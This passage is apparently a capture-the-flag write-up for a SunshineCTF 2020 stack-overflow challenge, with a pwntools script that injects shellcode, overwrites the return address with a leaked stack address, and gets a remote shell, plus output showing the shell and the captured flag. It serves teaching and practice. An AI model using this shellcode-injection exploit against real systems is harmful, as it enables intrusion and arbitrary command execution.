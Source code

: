 Just write out some shellcode, then pad with whatever until the return address.  The pad length will be `0x78` (`local_78`, _starting to see a pattern here?_) less the length of the shellcode.  Or put it after the return address, `gets` has no limits.

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_03')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30003)

p.sendlineafter('Just in time.\n','foobar')

p.recvuntil('I\'ll make it: ')
_ = p.recvline().strip()
stack = int(_,16)
log.info('stack: ' + hex(stack))

payload  = b''
payload += asm(shellcraft.sh())
payload += (0x78 - len(payload)) * b'\x90'
payload += p64(stack)

p.sendline(payload)
p.interactive()
```

Output:

```bash
# ./exploit_03.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-03/chall_03'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
[+] Opening connection to chal.2020.sunshinectf.org on port 30003: Done
[*] stack: 0x7fff1fc3e980
[*] Switching to interactive mode
$ id
uid=1000(chall_03) gid=1000(chall_03) groups=1000(chall_03)
$ ls -l
total 16
-rwxr-xr-x 1 root root     8488 Nov  7 07:49 chall_03
-rw-r----- 1 root chall_03   47 Nov  7 08:51 flag.txt
$ cat flag.txt
sun{a-little-piece-of-heaven-26c8795afe7b3c49}
```
